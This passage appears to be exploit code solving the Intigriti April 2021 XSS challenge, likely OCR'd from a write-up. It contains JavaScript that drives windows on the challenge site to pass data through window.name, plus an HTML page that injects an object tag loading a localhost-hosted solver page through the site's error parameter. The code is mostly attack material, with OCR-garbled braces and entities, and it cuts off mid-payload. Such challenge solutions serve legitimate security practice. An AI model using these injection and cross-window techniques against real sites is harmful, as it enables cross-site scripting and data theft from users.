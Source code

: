 ```
        await waitUntilWriteable(checkWindow);

        checkWindow.name = "" + identifier;
        checkWindow.location = `https://challenge-0421.intigriti.io/style.css`;
        currentIdentifier = "" + identifier;
        await waitForLocationChange(
          checkWindow,
          `https://challenge-0421.intigriti.io/style.css`
        );
      `}`

      async function waitForLocationChange(windowReference, location) `{`
        return new Promise((resolve) =&gt; `{`
          const handle = setInterval(() =&gt; `{`
            try `{`
              if (windowReference.location.href.includes(location)) `{`
                clearInterval(handle);
                setTimeout(resolve, 100);
              `}`
            `}` catch (e) `{``}`
          `}`);
        `}`);
      `}`

      async function waitUntilWriteable(windowReference) `{`
        return new Promise((resolve) =&gt; `{`
          const handle = setInterval(() =&gt; `{`
            try `{`
              if (windowReference.name.length) `{`
                clearInterval(handle);
                setTimeout(resolve, 100);
              `}`
            `}` catch (e) `{``}`
          `}`);
        `}`);
      `}`

      (async () =&gt; `{`
        checkWindow = window.open(`http://localhost:3000/opener.html`, "1");
        await waitForLocationChange(
          checkWindow,
          `http://localhost:3000/opener.html`
        );
        checkWindow.location = `https://challenge-0421.intigriti.io/style.css`;
      `}`)();
    &lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;
```

```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
  &lt;head&gt;
    &lt;link rel="icon" href="data:;base64,iVBORw0KGgo=" /&gt;
  &lt;/head&gt;
  &lt;body&gt;
    &lt;script&gt;
      if (location.search.includes("not") === false) `{`
        w = window.open(
          `https://challenge-0421.intigriti.io/?error=` +
            encodeURIComponent(
              `&lt;object id=poc data=http://localhost:3000/solver.html width=101 height=101&gt;&lt;/object&gt;
```